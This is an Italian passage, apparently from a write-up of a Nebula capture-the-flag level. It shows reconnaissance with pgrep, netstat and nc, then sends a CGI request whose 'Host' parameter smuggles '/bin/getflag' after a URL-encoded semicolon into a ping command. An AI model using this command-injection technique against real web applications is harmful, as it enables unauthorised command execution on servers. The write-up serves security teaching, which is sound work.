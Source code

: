 \begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ pgrep -l httpd
803 thttpd
806 thttpd
$ netstat -ntl | grep 7007
tcp6      0     0   :::7007    :::*    LISTEN
\end{lstlisting}
\end{mdframed}
Quindi esistono processi di nome \texttt{httpd}, c'è un processo che ascolta sulla porta TCP 7007, e inoltre c'è da notare che troveremo il server web sulla porta 7007 solo se non sarà trascorso troppo tempo dall'avvio di Nebula. In ogni caso da queste informazioni deduciamo che c'è un processo in ascolto sulla porta 7007, ma non vi è una prova del fatto che il processo in ascolto sia proprio \texttt{httpd}. Per verificare che il processo in ascolto su questa porta sia proprio \texttt{httpd} servono i privilegi di root: l'opzione \texttt{-p} di \texttt{netstat} stampa il PID e il nome del processo server in ascolto sulla porta. Ma l'utente attaccante non ha i privilegi di root, quindi non può usare questo comando. È necessario interagire direttamente con il server web per avere la certezza che il processo in ascolto sulla porta 7007 sia proprio \texttt{httpd}. È possibile inviare richieste al server (e ricevere le relative risposte) tramite il comando \texttt{nc <hostname> <port>}. Leggiamo il manuale per i dettagli con \texttt{man nc}. L'hostname da usare è uno qualunque su cui ascolta il server. Dal precedente output di \texttt{netstat} si evince che \texttt{thttpd} ascolta su tutte le interfacce di rete (\texttt{:::}). Quindi vanno bene nomi associati a questi IP: 127.0.0.1 (localhost) oppure l'IP assegnato all'interfaccia di rete. Proviamo:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ nc localhost 7007
GET / HTTP/1.0

HTTP/1.0 403 Forbidden
Server: thttpd/2.25b 29dec2003
...
\end{lstlisting}
\end{mdframed}
L'accesso a \texttt{/} è proibito, ma scopriamo che il server è effettivamente \texttt{httpd}. Connettiamoci allora al server e invochiamo lo script con input URL encoded, vincendo la sfida:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ nc localhost 7007
GET /index.cgi?Host=8.8.8.8%3B%2Fbin%2Fgetflag
Content-type: text/html

<html><head><title>Ping results</title></head><body><pre>PING 8.8.8.8 (8.8.8.8)
56 (84) bytes of data.
64 bytes from 8.8.8.8: icmp_req=1 ttl=46 time=23.0 ms
64 bytes from 8.8.8.8: icmp_req=2 ttl=46 time=22.5 ms
64 bytes from 8.8.8.8: icmp_req=3 ttl=46 time=22.6 ms

--- 8.8.8.8 ping statistics ---
3 packets trasmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/mac/mdev= 22.585/22.743/23.030/0.267 ms
You have successfully executed getflag on a target account
</pre></body></html>
$
\end{lstlisting}
\end{mdframed}

